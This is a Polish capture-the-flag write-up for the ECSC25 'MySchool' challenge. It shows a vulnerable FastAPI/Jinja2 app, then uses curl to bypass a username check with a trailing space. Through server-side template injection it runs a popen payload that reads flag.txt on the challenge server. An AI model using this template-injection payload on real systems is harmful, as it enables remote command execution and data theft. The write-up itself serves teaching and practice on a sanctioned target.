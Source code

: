 # MySchool

Zadanie podaje nam kod źródłowy serwera `app.py`:
```python
import uuid

import uvicorn
from dataclasses import dataclass
from typing import Optional
from fastapi import Response, Request, FastAPI, HTTPException
from jinja2 import Template
import mysql.connector


cnx_pool = mysql.connector.pooling.MySQLConnectionPool(
    host="mysql",
    port=3306,
    user="user",
    password="user",
    database="db",
    pool_size=32,
    pool_name="pool",
    use_pure=True,
)


@dataclass
class User:
    username: Optional[str] = uuid.uuid4()
    bio: Optional[str] = "default bio"


app = FastAPI()


@app.middleware("http")
async def get_db_connection(request: Request, call_next):
    response = Response("Internal server error", status_code=500)
    request.state.db = cnx_pool.get_connection()
    try:
        response = await call_next(request)
    finally:
        request.state.db.close()
    return response


@app.post("/users/")
def create_user(request: Request, user: User):
    if user.username != "test":
        cursor = request.state.db.cursor()
        session_id = uuid.uuid4()
        cursor.execute(
            "insert into users (username, bio,session_id) values (%s,%s,%s)",
            [user.username, user.bio, str(session_id)],
        )
        request.state.db.commit()
        return session_id
    else:
        raise HTTPException(status_code=403, detail="Can't modify the test user!")


@app.get("/users/")
def get_users(request: Request, session_id: Optional[str] = None):
    cursor = request.state.db.cursor()
    query = "select username, bio, (username='test') as matched from users where (session_id is NULL or session_id=%s)"
    cursor.execute(query, [session_id])
    found = [
        f"Welcome {username}, {bio}!"
        for (username, bio, matched) in cursor
        if matched != False
    ]
    return Template("\n".join(found)).render()


@app.get("/")
def index():
    return "You can't connect to this API with your browser. Check the source code."


if __name__ == "__main__":
    uvicorn.run(app)
```
oraz `schema.sql`
```sql
DROP TABLE IF EXISTS `users`;

CREATE TABLE `users` (
  `id` int(9) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(100),
  `bio` varchar(255),
  `session_id` varchar(100),
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=ASCII;

INSERT INTO `users` (`id`, `username`, `bio`) VALUES (1, 'test', 'test bio');
```
Oraz adres: `https://myschool.ecsc25.hack.cert.pl/`

# Testowanie
Z kodu źródłowego wyczytujemy że endpoint `/` do niczego nie służy, a `/users/` przyjmuje requesty `POST` i `GET`, więc wyślijmy po jednym:
### Request `GET`
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/
"Welcome test, test bio!"
```
### Request `POST`
```bash
stigs@stigsec:~$ curl -X POST https://myschool.ecsc25.hack.cert.pl/users/ -H "Content-Type: application/json" -d '{"username":"x","bio":"x"}'
"f49f2734-a2db-4ae3-8d5d-8a4c9a21b6ae"
```
Po wysłaniu `POST` do /users/ z wypełnionym `username` i `bio` otrzymaliśmy `session_id` który możemy użyć aby otrzymać informacje z bazy danych:
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/?session_id=f49f2734-a2db-4ae3-8d5d-8a4c9a21b6ae
"Welcome test, test bio!"
```
Jak widać `username` i `bio` to dalej 'test' a nie 'x' jak wpisałem. Dzieje się tak dlatego że backend wyświetla tylko uzytkownika o nazwie `test`, pomijając wszystko inne. Zawdzięczamy to warunkowi w kodzie który filtruje wyniki i pokazuje tylko rekordy gdzie `username='test'`. Nasz nowo dodany rekord trafia do bazy danych, ale nie jest widoczny w odpowiedzi na nasz request `GET` mimo podania prawidłowego `session_id`
## SSTI (Server-Side Template Injection)
Backend renderuje `bio` użytkownika `test` za pomocą `return Template("\n".join(found)).render()`, więc jeśli zmienimy `bio` użytkownika `test` to może dojść to SSTI.
# Exploitacja
Z kodu widać że nie można edytować `bio` uzytkownika `test`, ale warunek sprawdzający nazwę porównuje ją **bez przycinania spacji**. Dzięki temu kiedy stworzymy użytkownika `test `(spacja na końcu) to ominiemy zabezpieczenie, a `bio` z payloadem `{{7*7}}` zostanie wyrenderowane.
```bash
stigs@stigsec:~$ curl -X POST https://myschool.ecsc25.hack.cert.pl/users/ -H "Content-Type: application/json" -d '{"username":"test ","bio":"{{7*7}}"}'
"4cc2c6f4-2ae3-40f1-81fc-ef6a8998172c"
```
Następnie robimy request `GET` z podanym `session_id`
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/?session_id=4cc2c6f4-2ae3-40f1-81fc-ef6a8998172c
"Welcome test, test bio!\nWelcome test , 49!"
```
Jak widać payload został wyrenderowany, więc zdobycie flagi to kwestia doboru payloadu który odczyta flagę z `flag.txt`:
```bash
stigs@stigsec:~$ curl -X POST https://myschool.ecsc25.hack.cert.pl/users/ \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"test \", \"bio\": \"{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}\"}"
"4e2d184e-5159-45cb-bb6d-b5c6682d71dc"
```
Teraz request `GET` z tym `session_id` i mamy flagę!
```bash
stigs@stigsec:~$ curl -X GET https://myschool.ecsc25.hack.cert.pl/users/?session_id=4e2d184e-5159-45cb-bb6d-b5c6682d71dc
"Welcome test, test bio!\nWelcome test , ecsc25{NULL_is_not_always_False}!"s
```
